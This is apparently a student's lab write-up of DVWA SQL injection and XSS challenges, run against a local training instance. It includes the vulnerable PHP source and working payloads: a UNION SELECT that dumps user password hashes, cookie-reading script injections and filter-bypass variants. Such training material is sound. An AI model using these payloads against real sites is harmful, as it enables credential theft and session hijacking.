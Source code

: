 # DVWA - SQL Injection & XSS (Cross Site Scripting)

# SQL Injection
<details>
<summary>Introduction of SQL Injection?</summary>

### What is SQL Injection?
SQL Injection is a type of web security vulnerability that allows an attacker to manipulate an application's database query by inserting malicious SQL code into input fields, leading to unauthorized access or data manipulation.

### Basic Principles of SQL Injection

SQL Injection typically occurs when an application directly embeds user input into SQL queries without sufficient validation or sanitization. When an application incorporates user input as part of an SQL statement, an attacker can craft specific inputs to alter the final SQL statement to achieve their goals, such as bypassing authentication, reading, or modifying database data.

### Example

Suppose there is a simple login form where a user inputs a username and password, and the system executes the following SQL query to verify the user's identity:

```sql
SELECT * FROM users WHERE username = 'user input username' AND password = 'user input password';
```

If the user inputs the following:

- Username: `admin`
- Password: `' OR '1'='1`

The generated SQL statement would become:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';

```

Since `'1'='1'` is always true, this query will return information for all users in the database, allowing the attacker to bypass authentication and log in to the system.
</details>


---

<img width="943" alt="Screenshot 2024-05-14 at 3 42 56 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/9e23f1c0-361e-44a1-861c-f1b0baa2c69d">


<details>
<summary>Low-level security</summary>
    
### DVWA SQL Injection - Low level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_REQUEST[ 'Submit' ] ) ) { 
        // Get input
        $id = $_REQUEST[ 'id' ];
    
        // Check database
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    
        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Get values
            $first = $row["first_name"];
            $last  = $row["last_name"];
    
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 
        }
        mysqli_close($GLOBALS["___mysqli_ston"]);
    }
    ?>
    ```
    
2. **Source code Analysis**:
    - The server-side `low.php`  script doesn’t perform any check or filtering on user’s id input and directly displays the execution result of the SQL query to the client-side.
    - Try input `' OR '1'='1`  it returns all the result of user’s first name and surname. With that experiment It doesn’t return errors, So we have chance to get database information through SQL injection.
        
        <img width="941" alt="Screenshot 2024-05-14 at 3 55 35 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/5e91e4cc-1c05-47c7-93e4-67fc4f64139b">

        
      
        
3. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `"SELECT first_name, last_name FROM users WHERE user_id = '$id';"`
    - **Get the usernames and passwords from database :**  `’ UNION SELECT user, password FROM users#`
        <img width="931" alt="Untitled" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/dec7790e-0f67-4c5c-9156-00aea2b19431">
        
    - **Crack the hash:** Even though passwords are hashed but still try to crack it with library attack.
        <img width="850" alt="Screenshot_2024-05-14_at_7 47 39_in_the_evening" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/58f34eb1-ae2b-48c5-bb52-4e0d4c824e8d">      

</details>


---

<details>
<summary>Medium-level security</summary>
    
### DVWA SQL Injection - Medium level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_POST[ 'Submit' ] ) ) {
    	// Get input
    	$id = $_POST[ 'id' ];
    
    	$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    
    	// Get results
    	while( $row = mysqli_fetch_assoc( $result ) ) {
    		// Display values
    		$first = $row["first_name"];
    		$last  = $row["last_name"];
    
    		// Feedback for end user
    		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    	}
    
    }
    
    // This is used later on in the index.php page
    // Setting it here so we can close the database connection in here like in the rest of the source scripts
    $query  = "SELECT COUNT(*) FROM users;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    $number_of_rows = mysqli_fetch_row( $result )[0];
    
    mysqli_close($GLOBALS["___mysqli_ston"]);
    ?>
    ```
    
2. **Source code Analysis**:
    - `medium.php`  script try to avoid user input by giving dropdown selection instead.
    - It is still able to change the script in `inspect element`
        
        
        <img width="754" alt="Screenshot 2024-05-14 at 8 15 46 in the evening" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/07afd223-6374-4ea8-9953-cdb9a0448222">

3. **Vulnerabilities Exploitation**:
    - **Get the usernames and passwords from database :**  edit in inspector mode by inserting script as in the picture below:
        
        <img width="843" alt="Untitled (1)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/ab7335b5-98ee-415f-bf4a-b718ff7d9b98">

        
    - **Submit:**
        
        <img width="748" alt="Untitled (2)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/bf31b415-93fa-42aa-a2dc-42d4504a0d3c">

</details>        

---

<details>
<summary>High-level security</summary>
    
### DVWA SQL Injection - High level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_SESSION [ 'id' ] ) ) {
    	// Get input
    	$id = $_SESSION[ 'id' ];
    
    	// Check database
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
    
    	// Get results
    	while( $row = mysqli_fetch_assoc( $result ) ) {
    		// Get values
    		$first = $row["first_name"];
    		$last  = $row["last_name"];
    
    		// Feedback for end user
    		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    	}
    
    	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }
    
    ?>
    ```
    
2. **Source code Analysis**:
    - `High.php`  script want to avoid direct input so it call new popup window for input, from source code can be seen that it is very similar to low-level but it is different here with `LIMIT 1;` in the query.
    - However, still can do `’ UNION SELECT user, password FROM users#` use the hashtag to ignore the condition.
        
        <img width="751" alt="Screenshot 2024-05-15 at 12 21 10 at night" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/39d3376e-af17-44ad-9b03-58af3b3e9d7f">

        
3. **Vulnerabilities Exploitation**:
    - **Submit:**
        
        <img width="1440" alt="Untitled (3)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/19cfcb24-7e6a-4fee-8c88-08c20b49dcd1">

</details>        

---

<details>
<summary>As proof here</summary>

- As can be seen, the background is my desktop wallpaper.
- In about, it displays my name.
- The top bar can see the date 14, May, 8:27PM and compare to the name of screenshot (the same date, similar time because i just did it at the moment.
- The navigation bar on the middle-right are from my screen.
- Look at another window behind setting and finder, that is kali VM is running and I was testng on it.
    
    <img width="1440" alt="Untitled 5" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/ada31e8e-e0a5-4457-a164-23e01563d675">

</details>

---


# DOM-XSS (Cross site scripting)

<img width="882" alt="Untitled (4)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/205e04f0-1cd6-4bf9-aafc-83c673981a5a">

<details>
    
<summary>low-level security</summary>

### DVWA XSS - Low level 

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-d/
    
    // after selecting language
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    ```
    
3. **Updated URL:**
    
    ```jsx
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English <script> alert(”XSS_Test”) </script>
    ```
    
4. **Vulnerabilities Found**:
    
    <img width="1184" alt="Screenshot 2024-05-17 at 12 47 02 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/93b9ddac-f9f8-4dd4-81fd-7922afece9d6">

    
5. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `<script> alert(document.cookie) </script>`
      
        <img width="1294" alt="Screenshot 2024-05-17 at 12 49 37 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/1f7e5ed5-160c-45ac-aa03-bf20c7d3cbc9">

          
</details>

---

<details>

<summary> medium-level security </summary>

### DVWA XSS - Medium level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-d/
    
    // after selecting language
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    
    // failed because it has filtering script.
    ```
    
3. **Try with:**
    
    ```jsx
    </select><img src/onerror=alert(”XSS_Test”)>
    ```
    
4. **Vulnerabilities Found**:
   
    <img width="1344" alt="Untitled (5)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/3cf4b170-a7e0-466e-b613-a3631cefee7a">

    
 </details>
 
---


# Reflected based XSS

<img width="774" alt="Screenshot 2024-05-19 at 5 44 15 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/cbb355ce-bc2a-4a1f-ab36-58bbb4899cf5">

<details>

<summary>low-level</summary>

### XSS - Low level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-r/
    
    // after input name
    127.0.0.1/dvwa/vulunerabilities/xss-r/?name=munin#
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    
    <script> alert(document.cookie) </script>
    ```
    
3. **Vulnerabilities Found**:
    
    <img width="1244" alt="Untitled (6)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/984f0103-54fd-4233-bfe4-0c991a2186db">

    <img width="1211" alt="Untitled 9" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/66ce2463-7715-43db-a916-acafe3759629">

    
</details>

---

<details>

<summary>medium-level</summary>

### XSS - Medium level

1. **Input javascript into URL**:
    
    Because from the source code in medium level, it is filtering <script> however it is string and check only small capital letter, Hence we can try capital letter to escape the filtering.
    
    ```jsx
    <SCRIPT> alert("Hello") </SCRIPT>
    
    <SCRIPT> alert(document.cookie) </SCRIPT>
    ```
    
2. **Vulnerabilities Found**:
   
    <img width="1230" alt="Screenshot_2024-05-17_at_2 57 07_in_the_afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/9ebf671e-f1ca-48d4-a090-2835f7e9da23">

    <img width="1268" alt="Screenshot_2024-05-17_at_2 57 57_in_the_afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/37976eab-6649-4a5d-b64c-2b5a4a37a84a">
    
</details>

---

